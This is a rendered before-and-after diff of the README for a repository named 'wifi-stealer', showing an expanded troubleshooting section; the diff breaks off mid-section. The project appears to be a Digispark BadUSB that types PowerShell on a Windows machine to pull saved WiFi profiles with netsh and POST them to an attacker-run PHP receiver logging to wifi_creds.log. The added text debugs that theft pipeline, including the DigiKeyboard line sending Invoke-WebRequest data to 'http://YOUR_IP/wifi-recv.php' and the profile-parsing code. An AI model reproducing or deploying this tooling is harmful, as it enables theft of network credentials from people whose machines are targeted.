

Before and after one commit to Zypher17/wifi-stealer, a Markdown page: README.md, the part around one of its changes. Shown at 81% size. Rendered like a GitHub page; blank space fills up the shorter version.

Commit message:
Revise README for clearer instructions and troubleshooting
Updated instructions and troubleshooting steps in README for clarity and consistency.

````diff
--- a/README.md
+++ b/README.md
@@ -220,17 +223,90 @@ If you cloned the repo, you can also delete the project folder you downloaded.
 
 ## Troubleshooting
 
-**Dashboard won’t load:**
-- Make sure Apache or XAMPP is running.
-- Check that `index.php` is in the web root.
-- Make sure the log file is writable.
+### Dashboard loads, but no data appears
 
-**No data is showing up:**
-- Double-check the IP in the Arduino sketch.
-- Make sure the log file exists.
-- Check firewall settings.
+Most of the time the server is fine and the issue is on the Windows / payload side.
 
-**Digispark upload fails:**
-- Try a different USB port.
-- Plug it in only after clicking upload.
-- Install the Digispark drivers if needed.
+**1. Check the receiver and log file**
+
+- Test the PHP receiver from the server itself:
+
+  ```bash
+  curl -X POST http://localhost/wifi-recv.php -d "data=test"
+  cat /var/www/html/wifi_creds.log
+  ```
+
+  If you see `data=test` in the log, the PHP script and permissions are OK.[web:6]
+
+- If nothing is written:
+  - Make sure Apache is running:
+    `sudo systemctl status apache2`
+  - Check the log file exists and is writable:
+    `ls -l /var/www/html/wifi_creds.log` and fix ownership/permissions as in the setup section.[web:65]
+
+---
+
+### PowerShell error: “Unable to connect to the remote server”
+
+This means Windows can’t reach your server at the URL you used in `Invoke-WebRequest`, not that the PowerShell logic is broken.[web:59][web:61]
+
+On the Windows machine, in PowerShell:
+
+```powershell
+# 1) Can we reach the server IP?
+ping YOUR_IP
+
+# 2) Is the HTTP port open?
+Test-NetConnection YOUR_IP -Port 80
+# or, if you really configured Apache on a custom port:
+Test-NetConnection YOUR_IP -Port 8080
+```
+
+- If `ping` fails or `TcpTestSucceeded : False`, either:
+  - Windows and the server are not on the same network, or
+  - A firewall is blocking the connection.[web:64][web:67]
+
+Also double‑check the URL:
+
+- Default Apache from this README uses:
+  `http://YOUR_IP/wifi-recv.php`
+- Only use `:8080` if you configured Apache to listen on 8080 and tested it in a browser first.
+
+If manual tests work, make sure the **same URL** is used in your `.ino`:
+
+```cpp
+DigiKeyboard.print(
+  F("Invoke-WebRequest -UseBasicParsing -Uri 'http://YOUR_IP/wifi-recv.php' -Method POST -Body $b")
+);
+```
+
+Reflash the Digispark after any IP/URL change.
+
+---
+
+### PowerShell error: “You cannot call a method on a null-valued expression”
+
+This usually comes from the WiFi profile parsing line when a regex doesn’t match some `netsh` output lines, so `.Matches[...]` is `$null` and `.Value.Trim()` crashes.[web:80][web:75]
+
+A fragile version looks like:
+
+```powershell
+$profiles = netsh wlan show profiles |
+  Select-String "All User Profile\s+:\s+(.+)" |
+  %{ $_.Matches.Value.Trim() }[1]
+```
+
+To avoid this, the project uses a safer approach that doesn’t depend on complex regex groups:
+
+```powershell
+$profiles = (netsh wlan show profiles) |
+  Select-String "All User Profile" |
+  ForEach-Object {
+    $_.Line.Split(':').Trim()[1]
+  }
+```
+
+This just finds lines containing `All User Profile`, splits on `:`, and trims the right side (the SSID).[web:76][web:15]
+
+If you ever hit the null‑valued expression error:
+
````
Also changed, not shown: other parts of README.md (+85 -10 lines).
